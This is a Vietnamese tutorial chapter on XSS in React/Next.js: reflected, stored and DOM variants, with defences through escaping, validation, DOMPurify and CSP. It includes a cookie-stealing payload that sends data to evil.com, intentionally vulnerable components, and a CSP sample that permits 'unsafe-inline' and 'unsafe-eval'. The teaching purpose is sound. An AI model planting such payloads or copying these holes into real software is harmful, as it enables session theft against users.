

# 6.3.3 Script đừng chạy vào đường cấm: Tấn công XSS

## Khôi phục bản chất

XSS (Cross-Site Scripting) về bản chất là: **Kẻ tấn công tìm cách khiến trang web của bạn thực thi đoạn JavaScript mà anh ta viết**. Khi thành công, anh ta có thể đánh cắp Cookie người dùng, chiếm đoạt session, thậm chí kiểm soát tài khoản người dùng.



## Ba loại XSS

### 1. Reflected XSS

Script độc hại được "phản ánh" lên trang thông qua tham số URL. Người dùng bị trúng sau khi bấm liên kết độc hại.

```typescript
// ❌ Nguy hiểm: chèn trực tiếp tham số URL vào trang
// URL: /search?q=<script>alert('XSS')</script>
export default function SearchPage({ searchParams }) {
  return <div>Kết quả tìm kiếm: {searchParams.q}</div>
}
```

### 2. Stored XSS

Script độc hại được lưu vào cơ sở dữ liệu, tất cả người dùng truy cập nội dung đó đều bị trúng. Đây là loại nguy hiểm nhất.

```typescript
// ❌ Nguy hiểm: render bình luận của người dùng trực tiếp
// Kẻ tấn công gửi bình luận: <script>document.location='http://evil.com/steal?cookie='+document.cookie</script>
export default function Comments({ comments }) {
  return (
    <div>
      {comments.map(c => (
        <div dangerouslySetInnerHTML={{ __html: c.content }} />
      ))}
    </div>
  )
}
```

### 3. DOM XSS

Script độc hại thông qua sửa đổi cấu trúc DOM của trang, hoàn toàn diễn ra ở phía client.

```typescript
// ❌ Nguy hiểm: thao tác trực tiếp innerHTML
useEffect(() => {
  const hash = window.location.hash.slice(1)
  document.getElementById('content').innerHTML = decodeURIComponent(hash)
}, [])
```

## Chiến lược phòng thủ

### Chiến lược 1: Output Encoding

React mặc định sẽ escape nội dung HTML, đây là hàng rào phòng thủ quan trọng nhất:

```tsx
// ✅ An toàn: React tự động escape
function SafeComponent({ userInput }) {
  return <div>{userInput}</div>  // <script> sẽ được escape thành &lt;script&gt;
}

// ❌ Nguy hiểm: bỏ qua bảo vệ của React
function DangerousComponent({ userInput }) {
  return <div dangerouslySetInnerHTML={{ __html: userInput }} />
}
```

### Chiến lược 2: Xác thực đầu vào

Kiểm tra dữ liệu một cách nghiêm ngặt trước khi lưu vào cơ sở dữ liệu:

```typescript
import { z } from 'zod'
import DOMPurify from 'isomorphic-dompurify'

// Phương án 1: Giới hạn format một cách nghiêm ngặt
const CommentSchema = z.object({
  content: z.string()
    .min(1)
    .max(1000)
    .regex(/^[^<>]*$/),  // Cấm dấu ngoặc nhọn
})

// Phương án 2: Làm sạch HTML (nếu cần hỗ trợ rich text)
function sanitizeHtml(dirty: string) {
  return DOMPurify.sanitize(dirty, {
    ALLOWED_TAGS: ['b', 'i', 'em', 'strong', 'a', 'p', 'br'],
    ALLOWED_ATTR: ['href'],
  })
}
```

### Chiến lược 3: Content Security Policy

CSP là hàng rào cuối cùng, giới hạn nguồn script mà trang có thể thực thi:

```typescript
// next.config.js
const cspHeader = `
  default-src 'self';
  script-src 'self' 'unsafe-inline' 'unsafe-eval';
  style-src 'self' 'unsafe-inline';
  img-src 'self' blob: data:;
  font-src 'self';
  object-src 'none';
  base-uri 'self';
  form-action 'self';
  frame-ancestors 'none';
`

module.exports = {
  async headers() {
    return [
      {
        source: '/(.*)',
        headers: [
          {
            key: 'Content-Security-Policy',
            value: cspHeader.replace(/\n/g, ''),
          },
        ],
      },
    ]
  },
}
```

## Thực chiến: Rich text editor an toàn

Nếu kinh doanh thực sự cần rich text, hãy sử dụng thư viện làm sạch chuyên nghiệp:

```typescript
// lib/sanitize.ts
import DOMPurify from 'isomorphic-dompurify'

const config = {
  ALLOWED_TAGS: [
    'h1', 'h2', 'h3', 'p', 'br', 'ul', 'ol', 'li',
    'strong', 'em', 'a', 'img', 'blockquote', 'code', 'pre'
  ],
  ALLOWED_ATTR: ['href', 'src', 'alt', 'title', 'class'],
  ALLOW_DATA_ATTR: false,
  ADD_TAGS: [],
  ADD_ATTR: ['target'],  // Cho phép liên kết mở trong tab mới
}

export function sanitize(dirty: string): string {
  // Thêm target="_blank" và rel="noopener"
  DOMPurify.addHook('afterSanitizeAttributes', (node) => {
    if (node.tagName === 'A') {
      node.setAttribute('target', '_blank')
      node.setAttribute('rel', 'noopener noreferrer')
    }
  })

  return DOMPurify.sanitize(dirty, config)
}
```

```tsx
// Sử dụng an toàn trong component
function RichTextDisplay({ html }) {
  const safeHtml = sanitize(html)
  return <div dangerouslySetInnerHTML={{ __html: safeHtml }} />
}
```

## Điểm kiểm tra khi xem xét code AI

::: danger XSS Protection Checklist
1. [ ] Không bao giờ sử dụng `dangerouslySetInnerHTML` trực tiếp
2. [ ] Không bao giờ sử dụng `eval()` hoặc `new Function()`
3. [ ] Tham số URL phải xác thực và escape trước khi sử dụng
4. [ ] Đầu vào của người dùng phải xác thực trước khi lưu vào cơ sở dữ liệu
5. [ ] Nếu cần render HTML, bắt buộc sử dụng DOMPurify để làm sạch
6. [ ] Cấu hình Content-Security-Policy response header
:::
